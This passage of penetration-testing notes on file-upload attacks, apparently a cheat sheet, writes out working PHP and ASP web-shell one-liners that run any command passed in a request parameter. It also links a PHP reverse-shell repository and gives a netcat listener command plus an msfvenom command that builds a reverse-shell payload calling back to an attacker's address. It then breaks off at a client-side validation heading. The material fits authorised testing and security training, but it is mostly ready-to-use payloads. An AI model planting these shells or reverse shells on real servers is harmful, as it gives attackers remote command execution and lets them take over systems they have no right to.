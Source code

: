PHP Web Shell File : `<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; } ?>`

Custom Web Shell : `<?php system($_REQUEST['cmd']); ?>`

ASP Web Shell : `<% eval request('cmd') %>`

PHP Reverse Shell Repository : https://github.com/pentestmonkey/php-reverse-shell

> While running the above reverse shell, we need to start the Netcat Listener : `nc -lvnp OUR_PORT`

Generating Custom Reverse Shell : `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`

## Client Side Validation
Use Burp Suite, on the front end, ad